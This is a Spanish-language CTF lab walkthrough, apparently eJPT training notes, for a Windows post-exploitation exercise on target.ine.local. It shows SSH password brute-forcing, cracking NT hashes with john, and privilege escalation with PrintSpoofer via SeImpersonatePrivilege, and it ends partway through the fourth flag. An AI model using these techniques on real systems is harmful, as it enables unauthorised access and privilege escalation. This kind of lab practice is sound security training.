

repository: scarlgyx/scarlgyx-cybersecurity · page: certs/ejpt/host-network-pentest/10-post-exploitation-ctf-2/index.html · generator: mkdocs

# Post-Exploitation CTF 2

A target machine is accessible at **target.ine.local**
**Wordist:** /usr/share/wordlists/metasploit/unix_passwords.txt
**Tool:** /root/Desktop/PrintSpoofer.exe

- FLAG1
An insecure ssh user named alice lurks in the system.

![](../../../assets/img/Pasted_image_20260921170833.png)

Probamos fuerza bruta para el usuario alice

![](../../../assets/img/Pasted_image_20260921171914.png)

alice:princess1

Nos conectamos por ssh
```bash
ssh alice@target.ine.local
```

![](../../../assets/img/Pasted_image_20260921172139.png)

Vemos la flag en *C:\Users\alice*

- FLAG2
Using the hashdump file discovered in the previous challenge, can you crack the hashes and compromise a user?

Nos descargamos el **hashdump.txt** del mismo directorio que la *flag1.txt* y nos lo copiamos a un archivo

![](../../../assets/img/Pasted_image_20260921172555.png)

Vamos a probar a crackearlas con john
```bash
john --wordlist /usr/share/wordlists/metasploit/unix_passwords.txt --format=NT hashdump.txt
```

![](../../../assets/img/Pasted_image_20260921173030.png)

david:orange

Nos conectamos por ssh
```bash
ssh david@
```

![](../../../assets/img/Pasted_image_20260921173248.png)

Vemos la flag en el directorio *C:\Users\david*

- FLAG3
Can you escalate privileges and read the flag in C://Windows//System32//config directory?

Vemos que el usuario david tiene el **SeImpersonatePrivilege**

![](../../../assets/img/Pasted_image_20260921173452.png)

Subimos la herramienta **PrintSpoofer64.exe** por ssh
```bash
scp PrintSpoofer64.exe david@target.ine.local:.
scp ARCHIVO usuario@host:DESTINO
```

Usamos el programa para abusar de *SeImpersonatePrivilege*
```bash
PrintSpoofer64.exe -i -c powershell.exe
```

![](../../../assets/img/Pasted_image_20260921180316.png)

Buscamos ahora por los directorios
```bash
dir /a:d
```

![](../../../assets/img/Pasted_image_20260921180708.png)

Dentro de *\config* encontramos la flag3.txt

- FLAG4
Looks like the flag present in the Administrator's home denies direct access.

Comprobaremos los permisos del directorio *flag*
```bash
icacls flag
```

![](../../../assets/img/Pasted_image_20260922105735.png)

Vemos que tiene un DENY en nuestro usuario
